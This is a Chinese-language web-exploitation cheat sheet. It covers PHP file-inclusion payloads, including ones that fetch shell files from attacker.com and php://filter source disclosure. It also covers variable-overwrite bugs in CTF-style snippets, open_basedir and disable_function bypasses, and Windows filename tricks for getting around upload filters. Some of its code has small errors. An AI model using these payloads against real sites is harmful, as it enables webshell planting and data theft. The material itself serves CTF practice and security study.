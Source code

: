 



### php伪协议
* 条件
> allow_url_include = 1

* 参数
``` 

?file=http://attacker.com/shell.jpg
?file=zip://attacker.com/shell.php
# 本地文件包含
php://filter/convert.base64-encode/resource=index.php
```
----
### 变量漏洞

#### 函数使用不当
1. extract函数
```
<？php
$auth = false;
extract($_GET);
if($auth){
	echo "flag{..}"
}else {
	echo "access Denied";
}
?>
```
* 构建payload
> ?auth=1

2. parse_str函数
```
<?php 
$auth = false;
parse_str($_SERVER['QUERY_STRING']);
if($auth){
	echo "flag{...}";
}else{
	echo "access Denied";
}
?>
```
* 构建payload
> ?auth=1

3. import_request_variables函数
```
<?php 
$auth = false;
import_request_variables('G');
if($auth){
	echo "flag{...}";
}else{
	echo "access Denied";
}
?>
```
> G代表GET、P代表POST、C代表Cookies.排在前面的字符会覆盖后面的字符，如：GP，POST请求会忽略。

#### 配置不当
* 环境
> PHP < 5.4  
* 影响参数
> register_globals=ON

* 效果
```
<?php 
if($auth) {
	echo "flag{...}";
} else {
	echo "access Denied";
}
?>
```
> 用户传入参数auth=1即可进入if语句块。如果在if语句块前初始化￥auth变量，则不会出发这个漏洞


#### 代码逻辑漏洞

* 环境
> PHP 
* 影响参数
> $$  
> 可变变量可以浪一个普通的变量的值作为这个可变变量的变量名

* 效果
```
<?php 
$auth = false;
foreach($_GET as $key => $value){
	$$key = $value;
}
if($auth) {
	echo "flag{...}";
} else {
	echo "access Denied";
}
?>
```
* payload
> ?auth=1

----
### 防护绕过

#### open_basedir
* 环境
> PHP 
* 影响参数
> open_basedir  : 防御PHP跨目录进行文件读写方法
> disable_function  : 
* 利用方法
> DirectoryIteratior + Glob
* 效果
```
<?php 
printf('<b>opeen_basedir:%s</b><br/>', ini_get('open_basedir'));
$file_list = array();
$it = new DirecoryIterator("glob:///*");
foreach($it as $f){
	$file_list[] = $f->__toString();
}

$it = new DirecoryIterator("glob:///.*");
foreach($it as $f){
	$file_list[] = $f->__toString();
}
?>

sort($file_list);
foreach($file_list as $f){
	echo "{$f}<br/>"
}
```
#### disable_function  
* 环境
> PHP 
* 影响参数
> disable_function : 禁用危险函数（system、exec、shell_exec）
* 利用方法
> 1. shellshook、imagemagick
> 2. LD_PRELOAD

----
### Windows系统特性
#### 短文件名
* 描述
> Windows以8.3格式生成与MS-Dos兼容的段文件名，以允许MS-Dos或16位Windows的程序访问这些文件
> cmd下dir/x可看到短文件名的效果

* 利用方法
> https://github.com/likoekoe//IIS_shortname_Scanner

> Windows下的Apache环境里，除了能爆破服务器文件，还能通过短文件下载长文件
#### 文件上传
* 描述
> 上传的时候如果以黑名单的形式限制后缀，可以利用文件系统的特性去绕过
* 利用方法
> 上传的时候在php后面追歼高位字符[\x80-\xff]，或者"::$data" 利用":$DATA Alternate Data Stream", 参考OWASP

> 特殊的符号冒号，如果我们上传的时候后缀改为".php:.png"形式，系统最后得到的是0字符的php后缀文件，起到了截断效果，但是没能写入内容

